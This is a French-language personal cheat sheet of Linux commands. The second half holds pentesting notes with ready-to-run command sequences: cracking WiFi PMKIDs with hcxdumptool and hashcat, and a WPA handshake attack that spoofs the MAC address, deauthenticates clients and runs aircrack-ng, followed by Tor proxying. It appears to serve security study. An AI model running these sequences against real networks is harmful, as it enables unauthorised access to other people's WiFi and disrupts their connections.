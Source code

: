 <h2>Commandes de base linux :</h2>

Vider le terminal : CTRL + L

Savoir où on est dans l'arborescence : `pwd`

Se déplacer dans un autre dossier : `cd [chemin relatif ou absolu]` 

Retourner dans son home : `cd`

Retourner dans le dossier parent : `cd ..`

Aller à la racine : `cd /..`



Afficher le manuel relatif à une commande : `man [commande]`

Manuel du manuel : `man man`

Lister les commandes qui utilisent un terme : `apropos [terme]`

Localiser un élément : `locate [élément]`

Faire une recherche dans un fichier : `grep [mot] [nom fichier]`


Lister les fichiers/documents dans le dossier actuel : `ls` (argument `-a` pour les fichiers cachés ou `-l` pour plus de détails)
Pour obtenir la taille de chacun des sous-répertoires du répertoire courant : `du`



Créer un fichier : `touch [nom.extension]`

Créer un dossier : `mkdir [nom dossier]`

Supprimer un fichier : `rm [nom fichier]`

Supprimer un dossier : `rm -r [nom dossier]`

Copier un élément : ` cp [nom élément] [chemin/nouveau nom]`

Déplacer un élément : `mv [nom élément] [chemin destination]`

Voir contenu d'un fichier : `cat [nom fichier]`

Ouvrir fichier avec un éditeur de texte : `nano [nom fichier]`

------------------

<h2>Redirection de flux :</h2>

`>` redirige le résultat de la commande dans un fichier et l'écrase s'il existe déjà 

`>>` redirige à la fin d'un fichier et le crée s'il n'existe pas

=> Les erreurs ne sont pas redirigées !!
Pour cela on a d'autres techniques  : 
`2>` ou `2>>` envoie les erreurs dans le fichier désiré

Pour envoyer les erreurs et le résultat dans un même fichier on ajoute `2>&1` après avoir dit où envoyer le résultat.

Pour envoyer des données à utiliser pour une commande, on utilise `<` suivi du nom du fichier.

On peut faire de même mais en indiquant qu'on saisira au clavier les données à utiliser par la commande : `<< [mot clé pour indiquer la fin de la saisie]`
On revient à la ligne après avoir saisi chaque élément et pour arrêter on saisi le mot clé défini au préalable.

« Chaîner des commandes » ? Cela signifie connecter la sortie d'une commande à l'entrée d'une autre commande. Le "pipe" `|` effectue la connexion entre la sortie d'une commande et l'entrée de la suivante. 

Pour lancer un programme et avoir le retour de l'invite de commande dans un fichier texte : `python myscript.py > errorlog.txt 2>&1`

------------------
<h2>Commandes utiles linux :</h2>

Pour unzip un fichier .tar.gz :
`tar -xvf [nom du fichier]`

Réactiver network manager : 
`systemctl restart NetworkManager`

Avoir IP public : 
`curl ifconfig.me`

Vérifier si bluetooth fonctionne : 
`sudo service bluetooth status`

Regarder quel est l'interface bluetooth : 
`hcitool dev`

Activer bluetooth si marche pas : 
```
sudo systemctl enable bluetooth.service` puis `sudo systemctl start bluetooth.service
```

Bug souris VM : ouvrir un terminal, taper `ps -ax | grep VBoxClient` et tuer les processus avec "VBoxClient --draganddrop" dans le titre avec la commande `kill [numéro du processus]`

Activer mode monitoring : 
```
airmon-ng start wlan0`puis `airmon-ng check kill
```


<h2>Recherches sur le pentesting :</h2>

Hack bluetooth : https://www.google.com/amp/s/untelephone.com/guide-pirater-un-portable-par-bluetooth/amp/
- Bluejacking ou bluehacking (possibilité de peu de chose)
- Bluejacking (le plus puissant)
- Bluebugging (obsolète pour la plupart des smartphones récents)
- Blueprinting (processus d'empreinte)
- Bluesmack (attaque DoS)

Crack WPA : https://analyse-innovation-solution.fr/publication/fr/hacking/crack-wifi

DNS et ARP spoofing : https://analyse-innovation-solution.fr/publication/fr/hacking/mitm-arp-spoofing

Crack Wifi PMKID : https://www.cyberark.com/resources/threat-research-blog/cracking-wifi-at-scale-with-one-simple-trick
https://hashcat.net/forum/thread-7717.html


https://miloserdov.org/?p=418

------------------

<h2> Outils de pentest : </h2>


Générateur d’adresse MAC : https://miniwebtool.com/fr/mac-address-generator/


------------------
<h2>Crack PMKID :</h2>


Brancher son antenne wifi et l'associer à la VM puis exécuter la commande suivante pour désactiver les processus qui pourrait déranger durant le scann : 
`sudo airmon-ng check kill`

Commencer le scann de PMKID qui seront stockés dans le fichier "Wi-Fi_PMKID.pcapng" :

```
sudo hcxdumptool -i wlan0 -o Wi-Fi_PMKID.pcapng --disable_deauthentication --disable_client_attacks --enable_status=3
```

Une fois que l'on les réseaux que l'on souhaite, on convertit le fichier en format texte pour hashcat :

```
hcxpcapngtool -o Wi-Fi_pmkid_hash_22000_file.txt Wi-Fi_PMKID.pcapng
```

Transférer le fichier texte sur un PC puissant pour hasher les clés. Utiliser la base de la commande suivante :

- Pour une attaque par masque 

```
sudo hashcat -a 3 -w4 -m 22000 Wi-Fi_pmkid_hash_22000_file.txt [masque utilisé] -o pmkid_cracked.txt
```
- Pour une attaque par dictionnaire 
```
sudo hashcat -a 0 -m 22000 Wi-Fi_pmkid_hash_22000_file.txt -o pmkid_cracked.txt [nom du dictionnaire]
```

Ajouter `-D 1` si on veut utiliser uniquement le CPU 

Les différents masques possibles : 



------------------

<h2>Crack WPA :</h2>



On vérifie d'abord si la carte réseau bien connectée : `iwconfig` ou `ip addr `

On désactive la carte réseau : `sudo ifconfig wlan0 down`

On modifie l'adresse MAC de la carte réseau (2 première paire doit rester la même) :
`sudo macchanger -m XX:XX:XX:XX:XX:XX wlan0`

On réactive la carte : `sudo ifconfig wlan0 up`

On ferme tous les programmes qui utilisent la carte réseau : `sudo airmon-ng check kill`

On passe la carte en mode monitoring : `sudo airmon-ng start wlan0`

On scanne les réseaux disponibles à porté : `sudo airodump-ng wlan0mon`

Noter de côté les infos du routeur visé, exemple : nom de l'AP, son adresse MAC et le channel

On affiche uniquement ce routeur : `sudo airodump-ng wlan0mon -d [router mac adress]`

On capture dans un fichier "info" les 4 way handshakes :
```
sudo airodump-ng -w info -c [number of the channel] --bssid [router mac adress] wlan0mon 
``` 

Dans un nouveau terminal on va désautentifier un client du routeur : 
```
sudo aireplay-ng --deauth 0 -a [router mac adress] wlan0mon
```

On attend d'avoir une WPA handshake. On désactive le mode monitoring : `sudo airmon-ng stop wlan0mon     ` 

On va essayer de cracker le mdp avec un dictionnaire : 
```
sudo aircrack-ng [nom du fichier.cap] -w [chemin vers le dictionnaire]
```

Pour réactiver le wifi : `sudo systemctl start NetworkManager`




------------------
<h2>Comment utiliser tor comme proxy ? </h2>

Activer tor : `service tor start`

Vérifier que tor est bien activé : `service tor status`

Activer tor pour toutes les commandes de la session : `source torsocks on`

Activer tor pour une seule commande : `torsocks [commande]`

Tester adresse ip dans le terminal : `wget -qO - https://api.ipify.org; echo`
